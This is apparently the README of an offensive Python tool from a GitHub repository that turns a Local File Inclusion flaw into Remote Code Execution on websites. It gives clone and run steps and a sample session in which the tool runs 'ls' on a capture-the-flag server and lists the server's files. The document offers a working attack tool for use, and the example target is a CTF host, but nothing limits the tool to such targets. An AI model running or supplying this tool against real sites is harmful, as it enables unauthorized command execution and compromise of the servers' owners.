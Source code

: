 # LFI-RCE Tool 

This is a Python tool that can be used to perform a Local File Inclusion (LFI) attack that can lead to Remote Code Execution (RCE) on a vulnerable website.

## Requirements

* Python 3.x
* requests library
* base64 library
* webbrowser library
* bs4 library

## Usage

1. Clone the repository:
`git clone https://github.com/jameel3reef/mrAlphaQ.git`
2. Navigate to the Tools directory:
`cd mrAlphaQ/Tools/`
3. Run the LFI-RCE.py script:
`python LFI-RCE.py`
4. Follow the prompts to enter the necessary information:
Ex:
```bash
Enter the URL 'ex: (http://example.com/)': http://blackbox.tamuctf.com
Enter the vulnerable parameter: page
Please choose:
1- Remote Command Excution
2- PHP Info
3- Exit
Your Choice: 1
Enter a command: ls
config.php
index.php
robots.txt
sitemap.xml
static
templates
util.php

